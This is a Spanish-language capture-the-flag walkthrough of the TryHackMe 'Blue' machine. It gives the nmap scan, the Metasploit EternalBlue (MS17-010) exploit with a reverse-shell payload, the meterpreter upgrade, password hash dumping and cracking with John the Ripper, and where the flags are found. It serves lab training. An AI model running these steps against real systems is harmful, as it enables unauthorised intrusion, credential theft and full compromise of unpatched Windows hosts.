

# Blue

En este documento expondremos el recorrido realizado por la máquina Blue de TryHackMe, así como las soluciones propuestas.

Escaneamos la máquina objetivo haciendo uso de nmap. Más concretamente, emplearemos el comando **nmap -sV -sC --script vuln IP.** Gracias a este, averiguaremos los puertos abiertos, los servicios en ejecución en dichos puertos, y sus versiones correspondientes. Además, obtendremos el nombre del host, que es **JON-PC**, y la vulnerabilidad que podremos emplear contra la máquina para acceder a la misma, siendo la CVE-2017-0143, que permite la ejecución remota de código en servidores con Microsoft SMBv1 (**ms17-010**). Esto lo vamos a dividir primero buscaremos los puertos abiertos y l nombre del host y luego realizaremos el comando de las vulnerabilidades

## Gain Access

Iniciamos Metasploit con el comando sudo msfconsole, y una vez dentro, buscamos la forma de explotar la vulnerabilidad ms17-010. Para ello, empleamos el término search, seguido de la susodicha vulnerabilidad.

Comandos que vamos a utilizar:

use 0 o la ruta en concreto (use exploit/windows/smb/ms17_010_eternalblue)  
show options  
set rhosts (IP THM)  
set lhost (IP de nuestra VPN)  
set payload windows/x64/shell/reverse_tcp  
run

Vemos que la primera opción (*eternalblue*), es perfecta para tratar de acceder a la máquina, por lo que la seleccionamos, y mostramos las opciones del exploit.

Cambiamos la opción RHOSTS a la IP de la máquina a vulnerar. Después de esto, podremos ejecutar el exploit, haciendp uso del comando run o exploit.

Y ahora usamos el comando run:  
Al finalizar nos tienen que mostrar la siguiente salida:

Una vez que vemos que ha funcionado, oprimimos CTRL+Z para dejar la sesión iniciada en segundo plano (background). y pulsamos y para guardar la session

## Escalate

Convertimos nuestra shell en meterpreter, y para ello buscamos en Metasploit \*shell_to_meterpreter. Una vez que nos muestre los resultado, elegimos la primera (use 0).

Una vez realizado el comando lo seleccionaremos con el comando use (numero identificativo) y luego utilizaremos el comando show options para ver que modulos son requeridos.

También debemos cambiar la opcion LHOST a nuestra IP VPN

Podemos mostrar todas las sesiones activas con el comando sessions -l

&nbsp;

Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos:  

Seleccionamos la sesión en la que se encuentra el meterpreter

Si ejecutamos el comando shell seguido de whoami, la consola nos muestra NT authority\\system, lo que indica que hemos accedido y escalado privilegios de forma exitosa en el sistema.

Ahora listaremos todos los procesos del sistema con el comando ps, para migrar a un proceso corriendo bajo el usuario NT authority\\system. Este proceso se podría encontrar en el fondo de la lista (en nuestro caso es el proceso conhost.exe)

Cracking

Comenzaremos ejecutando el comando hashdump, que mostrará los hashes de las contraseñas de los diferentes usuarios del sistema, entre ellos el usuario JON-PC, que es el que nos interesa.

Luego, anotaremos el hash de la contraseña del usuario antes mencionado en un archivo llamado hash.txt, de modo que usando el software johntheripper, podamos crackear el hash.

Una vez obtenido el hash de la contraseña, se debe copiar en un txt y descifrar la contraseña verdadera con la herramienta John de la siguiente manera:

## Flags

La primera flag la encontramos en el directorio C:\\, la cual tras usar un cat en el archivo que vemos en la siguiente imagen nos mostrará la solución.

Para encontrar la segunda flag emplearemos el comando search -f flag2.txt, lo que nos arrojará como resultado la ubicación de la misma

Y haremos lo mismo que hicimos con la primera flag utilizando el comando cat para visualizarlo:

La tercera y última flag la encontramos en el directorio Documents del usuario JON-PC, por lo que accedemos a dicha carpeta y usamos cat de nuevo.

